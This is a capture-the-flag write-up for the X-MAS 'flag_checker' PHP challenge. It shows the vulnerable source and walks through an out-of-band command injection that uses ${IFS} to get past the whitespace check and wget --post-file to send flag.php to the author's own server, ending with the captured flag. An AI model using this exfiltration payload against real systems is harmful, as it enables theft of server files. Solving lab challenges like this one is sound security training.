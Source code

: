 ## flag_checker

A source code was provided for this challenge :
```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```
From this code we can see it's a oob comand injection , and we can also see that  the function verify only lowercase , so we can add options to our payload with o we can add options with ${IFS}.

First of all I set up a public aws instance and i also installed  ngix.  because the aws instances gives me a public ip , then I listened ngnix on port 80 and used this payload on the challenge : http://challs.xmas.htsp.ro:3001/?flag=${IFS}-${IFS}--post-file${IFS}flag.php${IFS}1.1.1.1(
in place of 1.1.1.1 I put the public ip of the aws instance). Let's see how this payload works.
First of all i used the $IFS variable, which is the “Internal Field Seperator” with default value ```<space><tab><newline>``` also works fine as a separator for commands , in this way the payload is a oob command injection with whitespace bypass , after i used the comand --post-file (this command is used to send the content of a file using wget) because i needed to get out to wget and send the flag.php to my aws istance.

After i went to my ngnix and intercepted the traffic with  tcpflow , more specifically with this comand " tcpflow -p -c -i eth0 port 80 " and i could see the content of the flag.php

![xmas1](https://user-images.githubusercontent.com/59454895/103447731-6ac10100-4c8f-11eb-9363-1ebdd340e3ae.PNG)

Flag:X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}

